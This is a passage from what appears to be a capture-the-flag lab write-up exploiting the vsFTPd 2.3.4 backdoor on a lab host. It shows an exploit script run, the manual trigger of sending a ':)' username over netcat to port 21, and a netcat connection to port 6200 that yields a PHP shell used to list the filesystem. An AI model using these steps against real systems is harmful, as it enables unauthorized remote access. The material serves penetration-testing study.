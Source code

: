 ```python
exploit('10.10.10.131', 21)
```

We can get it work:

```console
$ python2 49757.py 
10.10.10.131: inverse host lookup failed: Unknown host
(UNKNOWN) [10.10.10.131] 6200 (?) open
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```

We got an PHP debugger shell.

Also, we can exploit this vulnerability manually. First we can see that the port 6200 is closed:

```console
$ nc 10.10.10.131 6200
(UNKNOWN) [10.10.10.131] 6200 (?) : Connection refused
```

We need to send a FTP login with the string `:)` in the user field:

```console
$ nc 10.10.10.131 21         
220 (vsFTPd 2.3.4)
USER zero:)
PASS zero
331 Please specify the password.
```

And now start a connection. We can use `rlwrap` to make it interactive:

```console
$ rlwrap nc 10.10.10.131 6200
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```

Some functions are being blocked:

```php
shell_exec()
PHP Fatal error:  Call to undefined function shell_exec() in Psy Shell code on line 1
```

Even though there are not direct execution, we can use other functions:

```php
scandir("/")
=> [
     ".",
     "..",
     ".DS_Store",
     "._.DS_Store",
     "bin",
     "boot",
     "dev",
     "etc",
     "home",
     "lib",
     "lost+found",
     "media",
     "mnt",
     "opt",
     "proc",
     "root",
     "run",
     "sbin",
     "srv",
     "swap",
     "sys",
```